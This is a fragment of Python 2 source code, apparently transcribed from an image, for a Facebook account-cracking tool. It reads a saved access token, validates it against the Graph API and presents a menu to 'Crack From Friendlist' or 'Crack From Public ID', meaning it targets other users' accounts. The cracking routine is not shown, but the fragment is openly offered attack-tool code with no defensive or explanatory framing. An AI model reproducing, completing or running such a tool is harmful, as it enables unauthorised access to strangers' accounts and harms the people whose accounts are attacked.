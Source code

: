     print logo

    try:

        token = open(".fb_token.txt","r").read()

    except (KeyError , IOError):

        login()

    try:

        r = requests.get("https://graph.facebook.com/me?access_token="+token)

        q = json.loads(r.text)

        nm = q["name"]

        nmf = nm.rsplit(" ")[0]

        ok = nmf

    except (KeyError , IOError):

        print("")

        print("login account has checkpoint").center(50)

        print("")

        os.system("rm -rf .fb_token.txt")

        time.sleep(1)

        login()

    except requests.exceptions.ConnectionError:

        print logo

        print("")

        print("Your internet connection failed").center(50)

        print("")

        time.sleep(2)

        menu()

    os.system("clear")

    print logo

    print("")

    print("\t\033[1;92mLogin Account : " +nm)

    print("")

    print("\033[1;97m[1]\033[1;91m -> \033[1;93mCrack From Friendlist")

    print("")

    print("\033[1;97m[2]\033[1;91m -> \033[1;93mCrack From Public ID")
